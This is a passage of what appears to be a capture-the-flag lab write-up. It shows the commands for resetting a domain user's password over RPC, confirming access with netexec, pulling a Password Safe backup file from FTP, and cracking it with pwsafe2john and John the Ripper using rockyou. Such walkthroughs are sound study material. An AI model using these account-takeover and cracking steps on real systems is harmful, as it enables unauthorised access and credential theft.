 -   We repeat the process we did before for Michael but for Benjamin.

-   **Set our password**
    -   `net rpc password "Benjamin" $newPass -U $domain/$user%$newPass -S $box`
    -   {{< figure src="/ox-hugo/2024-11-10-111309_.png" >}}
    -   +Note+: There is no output from this so we need to verify it worked

-   **Verify it works**:
    -   `netexec smb $box -u benjamin -p $newPass --shares`
    -   {{< figure src="/ox-hugo/2024-11-10-111355_.png" >}}

-   **Benjamin does not have win-rm access**:
    -   {{< figure src="/ox-hugo/2024-11-10-111515_.png" >}}


### Accessing FTP as Benjamin: {#accessing-ftp-as-benjamin}

-   I check if benjamin has access to ftp &amp; he does

-   **Benjamin has access to FTP**:
    -   {{< figure src="/ox-hugo/2024-11-10-111557_.png" >}}


#### Finding a password safe file in the FTP: {#finding-a-password-safe-file-in-the-ftp}

-   **There is a file called** `Backup.psafe3`
    -   {{< figure src="/ox-hugo/2024-11-10-111636_.png" >}}

-   **I download the file to my local attach machine**:
    -   {{< figure src="/ox-hugo/2024-11-10-111945_.png" >}}
    -   There is an error as we are downloading in ascii mode, if we switch to binary mode we should be able to remove this warning.

-   **I switch to binary mode &amp; re-download to be sure**:
    -   {{< figure src="/ox-hugo/2024-11-10-112108_.png" >}}

-   **Looking online we discover the format** `psafe3` **is used by the password manager "Password Safe"**:
    -   <https://www.pwsafe.org/>


### Cracking the pwsafe File with John: {#cracking-the-pwsafe-file-with-john}

-   **John the ripper has a module for pwsafe files** `pwsafe2john` **I run this to extract the hash**:
    -   `pwsafe2john Backup.psafe3 > pwsafehash`

-   **Crack with john**:
    -   `john pwsafehash --wordlist=/home/kali/Wordlists/rockyou.txt`
    -   {{< figure src="/ox-hugo/2024-11-10-113007_.png" >}}


### Retrieving passwords from the pswafe file: {#retrieving-passwords-from-the-pswafe-file}

-   **So we can open this we need to install password safe**:
    ```shell
    # get release
    wget https://github.com/pwsafe/pwsafe/releases/download/1.20.0/passwordsafe-debian12-1.20-amd64.deb
    # make exectuable
    chmod +x passwordsafe-debian12-1.20-amd64.deb
    #install
    sudo apt install ~/Downloads/passwordsafe-debian12-1.20-amd64.deb
    ```
